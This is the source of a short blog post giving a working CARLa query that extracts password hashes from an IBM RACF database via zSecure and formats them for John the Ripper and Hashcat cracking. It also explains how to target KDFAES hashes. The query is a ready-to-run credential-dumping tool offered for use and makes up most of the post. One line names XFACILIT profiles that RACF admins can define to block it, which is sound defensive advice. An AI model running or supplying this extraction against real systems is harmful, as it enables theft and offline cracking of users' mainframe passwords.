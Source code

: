 ```yaml
---
layout: post
title: Extracting passwords using zSecure
date: 2018-04-24 21:54 +0100
tags: RACF zSecure
---
```

zSecure is an excellent product that I [heartily endorse](https://www.youtube.com/watch?v=BfOmkqz06SY).  

Here is some CARLa to pull out password hashes from a RACF DB and write out the results in JohnTheRipper and/or Hashcat formats. Just delete the relevant lines to suit your needs.  
To pull out KDFAES hashes replace `password` with `pwdx` but be aware that this will print empty lines for users with a DES password only. At the time of writing there is no publivly known way of cracking KDFAES passwords. I expect this will change in time.  

Note that this requires a RACF database to be allocated in SE.1 and will not work with a zSecure unload (since they don't contain passwords).  

**Note for RACF admins:** Define `XFACILIT` profiles of `CKG.CMD.FIELD.PASSWORD` and `CKG.CMD.FIELD.PWDX` with `UACC(NONE)` to prevent this from working.  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | password(hex,0)
```